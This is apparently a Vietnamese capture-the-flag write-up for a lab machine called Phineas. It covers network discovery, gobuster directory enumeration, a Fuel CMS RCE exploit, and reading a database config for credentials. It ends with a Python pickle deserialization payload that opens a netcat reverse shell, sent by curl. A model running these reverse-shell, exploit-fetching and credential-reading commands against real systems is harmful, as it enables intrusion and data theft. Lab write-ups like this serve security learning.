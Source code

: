 ## Step 1
Dùng **netdiscover -r 10.0.2.0/24** để dò ip của victim

![image](https://user-images.githubusercontent.com/97771705/222623213-96b7c935-f64e-456b-886f-9848fee3f4eb.png)

IP là *10.0.2.5*

Quét port ra 4 port, trong đó có 1 port mysql 

![image](https://user-images.githubusercontent.com/97771705/223318597-503e6337-d3a5-4494-90b9-c779ee69317a.png)

![image](https://user-images.githubusercontent.com/97771705/223318808-c6786e72-4619-48f4-a1ba-4e6f5cc147db.png)

## Step 
Tìm path ẩn bằng gobuster
>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5 -x html,php,txt

Tìm thấy 1 trang structure

![image](https://user-images.githubusercontent.com/97771705/223321109-040f3e01-6879-4f94-afb1-8f21e7253c1d.png)

Truy cập vào trang

![image](https://user-images.githubusercontent.com/97771705/223320795-03127848-e07d-4bea-bd9f-4fb081411f6e.png)

Ta tiếp tục tìm path ẩn của structure

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Phát hiện khá nhiều trang hay ho

![image](https://user-images.githubusercontent.com/97771705/223322168-14894230-8eed-4539-8fc5-1567cfc46739.png)

![image](https://user-images.githubusercontent.com/97771705/223321296-4e30fd1a-7e26-44c9-9146-4637662c0ae1.png)

![image](https://user-images.githubusercontent.com/97771705/223321412-efb75479-44be-49e9-85de-c8e00fb1eb09.png)

Trang /fuel mặc định là /fuel/start ->có vẻ như lại cần gobuster :)

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Trang index.php chuyển hướng sang start

![image](https://user-images.githubusercontent.com/97771705/223322704-44a5ab48-433a-499b-92f2-1d471019b544.png)

Thử thay url bằng /index.php/fuel 

![image](https://user-images.githubusercontent.com/97771705/223323114-ac21dfa1-9395-4f2c-99a2-5dbd381c6337.png)

Tìm kiếm trên Google, phát hiện Fuel CMS có lỗ hổng RCE tại những phiên bản cũ. Một trong những code khai thác:

https://github.com/padsalatushal/CVE-2018-16763

Git clone code trên trang github trên về máy kali

![image](https://user-images.githubusercontent.com/97771705/223417730-70b91543-6dd8-416a-b789-594e6db99a61.png)

Nhập command reverse shell: tạo ra một kết nối từ victim machine đến attacker machine, thông qua đó attacker có thể kiểm soát và thực thi các lệnh trên victim machine. Khi thực hiện được kết nối này, attacker có thể truy cập vào các tài nguyên và dữ liệu trên victim machine, và có thể thực hiện các hành động như cài đặt phần mềm độc hại, lấy mật khẩu và tạo backdoor để giữ lâu dài quyền kiểm soát truy cập vào victim machine.

>nc 10.0.2.5 4444 /bin/bash

Sau đó đọc thông tin trong database.php

> cat /var/www/html/structure/fuel//config/database.php 

![image](https://user-images.githubusercontent.com/97771705/223422171-a6f74ea1-4bf9-464f-b325-dfbc4dd7b45e.png)

Ta đã có username và password, trở về máy phineas -> đăng nhập thành công

![image](https://user-images.githubusercontent.com/97771705/223422669-fa400788-e058-4df1-b0a1-84fb2ea8bd1b.png)

Hoặc dùng cách ssh cho pro :)

![image](https://user-images.githubusercontent.com/97771705/223422976-1e9f8cb9-08a4-4f94-92a9-7d74e86b6349.png)

![image](https://user-images.githubusercontent.com/97771705/223601249-a9ecd891-e0ba-410b-b8e9-838176fea35c.png)

Tìm kiếm loanh quanh các thư mục -> nhận được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/223423539-fb08405f-35fd-4012-a371-6f0a2f6ef8cd.png)

## Step 3

Đến lúc leo thang đặc quyền r :) 

Trong số các folder khởi đầu của máy Phineas, chỉ có duy nhất /web là không có viết hoa. Mở ra có 1 file python

![image](https://user-images.githubusercontent.com/97771705/223424243-49792b4c-cfe5-46b6-acd5-a51bca3f77d9.png)

Có thể thấy nó bị dính lỗi Insecure Deserialization

Command exploit
>wget https://gist.githubusercontent.com/kriss-u/085569495cb930e398759c0cbf45e3b7/raw/15fe119ed307ac69673bcaadd9fab84c32a85a00/pickle-payload-py3.py

>python3 pickle-payload-py3.py "nc 10.0.2.5 9999 -e /bin/bash"

>curl -d "awesome=gASVOQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB5uYyAxMC4wLjIuMTUgOTk5OSAtZSAvYmluL2Jhc2iUhZRSlC4=" -X POST http://127.0.0.1:5000/heaven






